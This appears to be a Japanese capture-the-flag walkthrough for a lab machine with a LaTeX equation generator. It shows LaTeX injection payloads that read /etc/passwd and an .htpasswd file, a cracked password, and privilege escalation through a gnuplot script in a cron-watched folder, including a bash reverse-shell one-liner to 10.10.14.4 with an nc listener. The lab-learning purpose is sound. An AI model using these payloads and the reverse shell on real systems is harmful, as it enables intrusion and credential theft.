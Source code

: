 #### nmap
![](../images/20230827205014.png)

webサイトにアクセスしてみる
![](../images/20230827205207.png)
ほとんどのリンクは死んでいるが下線のリンクだけは生きている
hostsに登録しないとアクセス出来なのでhostsに登録する
![](../images/20230827205438.png)
リンク先を開くとLaTex式ジェネレーターのページが開く
![](../images/20230827213240.png)

>**LaTeX** 高品質の数式と記号を使用して、科学的および技術的文書をタイプセットおよびフォーマットするために使用される文書準備システムです。次に、‘ latex ’のペイロードを検索します。

HackTricksのページにLaTexInjectionがある
![](../images/20230827214511.png)

```bash
$lstinputlisting{/etc/passwd}$
```
を実行すると
![](../images/20230827214733.png)
上記の結果がえられる

gobuster or wfuzzからサブドメインがあることが分かる

/devがあったので「/var/www/dev」が存在する。
apacheサーバーでは、ユーザーパスワードのデフォルトの資格情報が「.htpasswd」に保存されている。

先ほどのペイロードの部分を変更して
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
を実行すると
![](../images/20230827221915.png)
が得られる

ユーザーは「vdaisley」
パスワードはハッシュなのでjohnで解読する
![](../images/20230827222627.png)

password = calculus20

#### SSH接続

![](../images/20230827222710.png)

#### 権限昇格

ディレクトリのパーミッションをチェックする
```shell
find / -type d -perm /020 -not -perm /040 2>/dev/null
```

>-perm /020： このオプションは、特定のパーミッションを持つディレクトリをフィルタリングする。先頭のフォワードスラッシュ（"/"）は、パーミッションが正確に一致することを示す。"020 "は、グループのパーミッション "wx-"（書き込みと実行はできるが、読み取りはできない）の8進数表現である。
>
>-not -perm /040: このオプションは、特定のパーミッションを持つディレクトリを除外することで、さらにディレクトリをフィルタリングする。ここでも、フォワードスラッシュ("/")は完全一致を示し、"040 "はグループの "r--"(読み込みのみ)パーミッションの8進数値を示す。したがって、グループの読み取りパーミッションを持っているディレクトリは、検索結果から除外されます。

![](../images/20230827225149.png)

pspy64を実行
![](../images/20230827225949.png)

![](../images/20230827230042.png)

定期的に/opt/gnuplot/配下のシェルが動いている
/opt/gnuplot/内にwatch.pltを作成して実行されるのをまつ（watch.pltは任意のファイル名）
```
'system "chmod u+s"' > /opt/gnuplot/watch.plt
```

![](../images/20230827230905.png)

![](../images/20230827231320.png)

または

```shell
system “bash -c ‘bash -i >& /dev/tcp/10.10.14.4/12345 0>&1’"
```

で/opt/gnuplot/watch.pltを作成
```shell
nc -nvlp 12345
```
でリバースシェルを取得する。

>"system": これは、プログラム内から別のコマンドまたはシステムコールを実行するために使用される関数またはコマンドです。この場合、システムコマンドを実行しています。
>"bash -c 'bash -i >& /dev/tcp/10.10.14.4/12345 0>&1'": これは実行されるシステムコマンドです。
> "bash -c": これは、Bashシェルに引数として指定されたコマンドを実行するように指示します。
> 'bash -i >& /dev/tcp/10.10.14.4/12345': この内部コマンドは、IPアドレス`10.10.14.4` port `12345`へのTCP接続を設定します 。
> "-i": このフラグにより、インタラクティブなシェルがリモートシステムに確実に生成されます。
> ">& /dev/tcp/10.10.14.4/12345": これにより、Bashシェルの標準出力と標準エラーの両方が `10.10.14.4` portに `12345`。これにより、出力メッセージとエラーメッセージをネットワーク経由で送信できます。
> "0>&1": これにより、標準入力(ファイル記述子0 )が標準出力(ファイル記述子1 )にリダイレクトされます。このステップにより、確立されたTCP接続を介して受信されたすべての入力が標準出力にリダイレクトされ、リモートシステムとの相互作用が可能になります。
